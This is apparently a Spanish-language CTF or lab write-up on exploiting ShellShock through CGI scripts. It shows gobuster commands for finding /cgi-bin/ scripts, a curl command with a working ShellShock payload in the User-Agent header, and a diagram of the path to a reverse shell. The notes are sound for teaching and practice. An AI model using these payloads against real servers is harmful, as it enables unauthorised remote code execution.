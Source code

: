 > [!example] Explicación de parámetros
> - **`-w`**: Especifica la wordlist para el diccionario
> - **`-u`**: URL objetivo
> - **`-t 20`**: Número de hilos concurrentes
> - **`--add-slash`**: Agrega "/" al final para identificar directorios

**Resultado clave:**
```
/cgi-bin/             (Status: 200) [Size: 3452]
```

### Enumeración de scripts CGI

Al encontrar `/cgi-bin/`, buscamos scripts ejecutables:

```bash
# Buscar scripts con extensiones comunes
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
    -u http://IP_MAQUINA/cgi-bin/ \
    -t 20 \
    -x sh,pl,py,php,cgi
```

> [!info] ¿Por qué CGI-BIN es importante?
> El directorio `/cgi-bin/` tradicionalmente aloja scripts ejecutables del servidor web. Estos scripts son candidatos perfectos para ataques [[Ataque ShellShock]] ya que pueden invocar bash para procesar variables de entorno.

---

## 💥 Fase 2: Explotación Web (ShellShock)

### Detección de vulnerabilidad ShellShock

```bash
# Test básico de ShellShock
curl -H "User-Agent: () { :; }; /usr/bin/whoami" http://IP_MAQUINA/cgi-bin/script.cgi
```

### Explotación para obtener shell reversa

```mermaid
sequenceDiagram
    participant A as Atacante
    participant W as Servidor Web
    participant S as Script CGI
    participant B as Bash (Vulnerable)
    
    A->>A: Configurar listener nc
    A->>W: Request con payload ShellShock
    W->>S: Ejecutar script CGI
    S->>B: Procesar variables de entorno
    B->>B: Ejecutar reverse shell
    B->>A: Conexión establecida
```
